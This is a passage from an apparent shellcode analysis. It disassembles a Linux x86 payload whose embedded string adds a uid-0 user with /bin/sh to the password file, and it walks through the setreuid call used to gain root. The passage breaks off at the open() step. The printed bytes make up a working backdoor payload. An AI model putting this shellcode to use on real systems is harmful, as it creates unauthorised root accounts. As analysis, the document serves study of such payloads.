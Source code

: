 ```
00000023  CD80              int 0x80
00000025  93                xchg eax,ebx
00000026  E822000000        call dword 0x4d
0000002B  736C              jnc 0x99              -> Start of username/password string
0000002D  61                popad                 ..
0000002E  653A417A          cmp al,[gs:ecx+0x7a]  ..
00000032  48                dec eax
00000033  3433              xor al,0x33
00000035  7970              jns 0xa7
00000037  58                pop eax
00000038  2F                das
00000039  7A65              jpe 0xa0
0000003B  7063              jo 0xa0
0000003D  3A30              cmp dh,[eax]
0000003F  3A30              cmp dh,[eax]
00000041  3A3A              cmp bh,[edx]
00000043  2F                das
00000044  3A2F              cmp ch,[edi]
00000046  62696E            bound ebp,[ecx+0x6e]
00000049  2F                das
0000004A  7368              jnc 0xb4
0000004C  0A598B            or bl,[ecx-0x75]
0000004F  51                push ecx
00000050  FC                cld
00000051  6A04              push byte +0x4
00000053  58                pop eax
00000054  CD80              int 0x80
00000056  6A01              push byte +0x1
00000058  58                pop eax
00000059  CD80              int 0x80
```

## Stepping through the shellcode

`int setreuid(uid_t ruid, uid_t euid)`

> setreuid() can be used by daemon processes to change the identity of a process in order for the process to be used to run work on behalf of a user.

The `setreuid` function is called so the program executes as root (of course, the user or process executing the shellcode must have privileges to do so). This is often used when the process itself doesn't run as root but has privileges to do, for example if the SUID bit is set on the file.

```nasm
xor ecx,ecx              ; ecx = 0
mov ebx,ecx              ; ebx = 0
push byte +0x46          ; eax = 0x46 -> sys_setreuid16
pop eax
int 0x80
```

`int open(const char *pathname, int flags)`

